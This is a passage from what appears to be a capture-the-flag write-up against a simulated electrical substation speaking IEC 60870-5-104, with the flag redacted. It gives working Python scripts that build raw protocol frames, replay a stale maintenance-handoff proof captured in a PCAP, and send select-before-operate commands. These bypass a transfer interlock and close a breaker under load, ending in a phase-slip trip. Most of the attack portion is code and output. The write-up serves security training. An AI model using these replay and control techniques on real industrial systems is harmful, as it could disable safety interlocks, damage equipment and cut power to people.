Do not replay the raw captured command APDUs as fixed bytes. The APCI transmit and receive counters in the `iec60870_104.tx` and `iec60870_104.rx` columns are session state. The useful information to carry into the solver is the common address, the IOAs, and the select-before-operate pattern.

```python
#!/usr/bin/env python3
from pathlib import Path
import struct

TYPE_C_SC_NA_1 = 45

pcap = Path("release/backup.pcap").read_bytes()
offset = 0

while True:
    start = pcap.find(b"\x68", offset)
    if start < 0:
        break
    length = pcap[start + 1]
    frame = pcap[start:start + 2 + length]
    offset = start + 1

    if len(frame) < 16 or frame[2] & 1:
        continue

    asdu = frame[6:]
    if not asdu or asdu[0] != TYPE_C_SC_NA_1 or len(asdu) < 10:
        continue

    cot = struct.unpack("<H", asdu[2:4])[0] & 0x3f
    ca = struct.unpack("<H", asdu[4:6])[0]
    ioa = asdu[6] | (asdu[7] << 8) | (asdu[8] << 16)
    sco = asdu[9]
    print(start, "cot", cot, "ca", ca, "ioa", ioa, "sco", hex(sco))
```

Useful output

```text
2905 cot 6 ca 17 ioa 1101 sco 0x81
3009 cot 7 ca 17 ioa 1101 sco 0x81
3201 cot 6 ca 17 ioa 1101 sco 0x1
3305 cot 7 ca 17 ioa 1101 sco 0x1
3409 cot 10 ca 17 ioa 1101 sco 0x81
3601 cot 6 ca 17 ioa 1201 sco 0x81
3705 cot 7 ca 17 ioa 1201 sco 0x81
3809 cot 6 ca 17 ioa 1201 sco 0x1
3913 cot 7 ca 17 ioa 1201 sco 0x1
4017 cot 10 ca 17 ioa 1201 sco 0x81
```

The command mapping is below.

| IOA | Meaning | Required action |
| --- | --- | --- |
| `1101` | transfer interlock bypass | select ON, execute ON |
| `1201` | `52-T` transfer breaker close | select ON, execute ON |

Cause `6` is activation. Cause `7` is activation confirmation. Cause `10` is activation termination. The captured command sequence shows normal select-before-operate behavior.

### Step 6 - Prove The Mapped Controls Are Gated

After mapping IOA `1101` from the capture, I tested whether the same select and execute sequence would work without first replaying the maintenance handoff. It does not. The PLC accepts `STARTDT`, but the mapped control command is rejected without an active handoff.

```python
#!/usr/bin/env python3
import socket
import struct
import time

HOST = "127.0.0.1"
PORT = 2404
COMMON_ADDR = 17
COT_ACTIVATION = 6
TYPE_C_SC_NA_1 = 45
IOA_INTERLOCK_BYPASS = 1101

def pack_ioa(ioa):
    return bytes((ioa & 0xff, (ioa >> 8) & 0xff, (ioa >> 16) & 0xff))

def asdu(type_id, cot, objects):
    return bytes((type_id, 1)) + struct.pack("<HH", cot, COMMON_ADDR) + objects

def iframe(send_seq, recv_seq, payload):
    body = struct.pack("<HH", send_seq << 1, recv_seq << 1) + payload
    return b"\x68" + bytes((len(body),)) + body

def recv_frame(sock):
    first = sock.recv(1)
    while first and first != b"\x68":
        first = sock.recv(1)
    if not first:
        return b""
    length = sock.recv(1)[0]
    data = sock.recv(length)
    while len(data) < length:
        data += sock.recv(length - len(data))
    return first + bytes((length,)) + data

with socket.create_connection((HOST, PORT), timeout=5) as sock:
    sock.settimeout(5)
    sock.sendall(bytes.fromhex("680407000000"))
    print("startdt", recv_frame(sock).hex(" "))

    select_on = asdu(TYPE_C_SC_NA_1, COT_ACTIVATION, pack_ioa(IOA_INTERLOCK_BYPASS) + b"\x81")
    sock.sendall(iframe(0, 0, select_on))
    print("select", recv_frame(sock).hex(" "))

    execute_on = asdu(TYPE_C_SC_NA_1, COT_ACTIVATION, pack_ioa(IOA_INTERLOCK_BYPASS) + b"\x01")
    sock.sendall(iframe(1, 1, execute_on))
    print("execute", recv_frame(sock).hex(" "))
    time.sleep(0.2)
```

Useful output

```text
startdt 68 04 0b 00 00 00
select 68 0e 00 00 02 00 2d 01 07 00 11 00 4d 04 00 81
execute 68 0e 02 00 04 00 2d 01 47 00 11 00 4d 04 00 01
```

Checking `/status.json` after the execute shows the command did not change the process.

```text
"authorized": false
"authorized_ttl": 0.0
"last_command": "IOA 1101 rejected: no active handoff"
"interlock_bypass": false
```

This proves the PCAP is not only a command map. The player also needs an accepted maintenance handoff before any mapped control command matters.

### Step 7 - Replay The Handoff Proof

The replay has to happen after `STARTDT`. The RTU records a short handoff window when it receives `STARTDT act`. The stale proof is accepted only if the handoff ASDU arrives during that window.

This code builds the same proof APDU from the extracted bytes.

```python
#!/usr/bin/env python3
import socket
import struct
import time

HOST = "127.0.0.1"
IEC104_PORT = 2404
COMMON_ADDR = 17
COT_ACTIVATION = 6
TYPE_C_TS_NA_1 = 104
IOA_MAINT_HANDOFF = 0x041104
PROOF = bytes.fromhex("bb322456bda87cee")

def pack_ioa(ioa):
    return bytes((ioa & 0xff, (ioa >> 8) & 0xff, (ioa >> 16) & 0xff))

def build_asdu(type_id, cot, objects):
    return bytes((type_id, 1)) + struct.pack("<HH", cot, COMMON_ADDR) + objects

def build_i_frame(send_seq, recv_seq, asdu):
    control = struct.pack("<HH", send_seq << 1, recv_seq << 1)
    payload = control + asdu
    return b"\x68" + bytes((len(payload),)) + payload

def recv_frame(sock):
    first = sock.recv(1)
    while first and first != b"\x68":
        first = sock.recv(1)
    if not first:
        raise RuntimeError("connection closed")
    length = sock.recv(1)[0]
    data = sock.recv(length)
    while len(data) < length:
        data += sock.recv(length - len(data))
    return first + bytes((length,)) + data

with socket.create_connection((HOST, IEC104_PORT), timeout=5) as sock:
    sock.settimeout(5)
    sock.sendall(bytes.fromhex("680407000000"))
    print("startdt", recv_frame(sock).hex(" "))

    handoff_asdu = build_asdu(
        TYPE_C_TS_NA_1,
        COT_ACTIVATION,
        pack_ioa(IOA_MAINT_HANDOFF) + PROOF,
    )
    sock.sendall(build_i_frame(0, 0, handoff_asdu))
    time.sleep(0.2)
```

After this replay, `/status.json` briefly shows an active handoff.

```text
"authorized": true
"last_handoff": "stale maintenance proof accepted"
```

That is the authorization primitive needed for the next step.

### Step 8 - Use SBO Controls To Bypass The Interlock

After handoff replay, send select and execute for IOA `1101`.

The important command object is four bytes.

```text
4d 04 00 81  IOA 1101, select ON
4d 04 00 01  IOA 1101, execute ON
```

The same raw helper from the previous step can build those ASDU objects, but the repository solver uses the `c104` library for the real control phase so the select-before-operate state machine is handled by a protocol implementation.

The expected process state after the bypass is below.

```json
{
  "authorized": true,
  "last_handoff": "stale maintenance proof accepted",
  "last_command": "interlock bypass set to 1",
  "process": {
    "main_breaker_closed": true,
    "tie_breaker_closed": false,
    "transfer_pump_running": true,
    "interlock_bypass": true,
    "feeder_trip": false,
    "bus_voltage_kv": 11.22,
    "feeder_load_mw": 3.77,
    "sync_angle_deg": 13.7,
    "transformer_temp_c": 68.2
  }
}
```

The alarm table changes from the inhibit alarm to the bypass alarm.

```json
{
  "alarms": [
    {
      "id": "RLY104-BYPASS",
      "severity": "HIGH",
      "message": "Manual transfer interlock bypass is active"
    }
  ]
}
```

HMI after replaying the handoff and enabling bypass



This is not solved yet. The pump is still running and the feeder is still loaded, but `52-T` is still open. The final action is to close the transfer breaker while those unsafe conditions still exist.

### Step 9 - Close `52-T` Under Load

Now send select and execute for IOA `1201`.

The command objects are below.

```text
b1 04 00 81  IOA 1201, select ON
b1 04 00 01  IOA 1201, execute ON
```

The PLC accepts the close because the bypass is active. On the next scan, the simulator sees the unsafe physical condition.

```text
52-T closed
interlock bypass active
P-43 transfer pump running
feeder load present
sync angle outside the safe transfer window
```

The trip state from `/status.json` is below.

```json
{
  "authorized": true,
  "last_handoff": "stale maintenance proof accepted",
  "last_command": "52-T close caused phase-slip trip",
  "process": {
    "main_breaker_closed": false,
    "tie_breaker_closed": false,
    "transfer_pump_running": false,
    "interlock_bypass": true,
    "feeder_trip": true,
    "bus_voltage_kv": 0.0,
    "feeder_load_mw": 0.0,
    "sync_angle_deg": 16.2,
    "transformer_temp_c": 73.4
  }
}
```

The important point is that the token is still not read from a register. It appears only after the process trip creates the critical alarm.

Final HMI state with the token redacted in the screenshot



Final alarm response with the token redacted

```http
HTTP/1.0 200 OK
Server: FrostlineHMI/2.8 Python/3.12.3
Content-Type: application/json
Content-Length: varies
Cache-Control: no-store

{"alarms":[{"id":"RLY104-PHASE-SLIP","severity":"CRIT","message":"52-T phase-slip trip asserted - TOKEN HTB{REDACTED}"}]}
```

### Step 10 - Run The Repository Solver

The solver performs the same chain. It reads the release PCAP, extracts the proof dynamically, replays the handoff, uses `c104` for select-before-operate controls, then reads the token from `/alarms`.

Install the dependency and run it from the solver package directory.

```bash
python3 -m pip install -r requirements.txt
python3 -u solver.py
```

Solver output with the token redacted

```text
[*] Reading release maintenance handoff capture
[+] Replayed proof extracted from PCAP: bb322456bda87cee
[*] Replaying handoff proof
[*] Operating IEC-104 controls with c104
[*] Waiting for feeder trip alarm
[+] HTB{REDACTED}
```

The solve is complete once the phase-slip alarm is created by the process state and the token is recovered from that alarm.
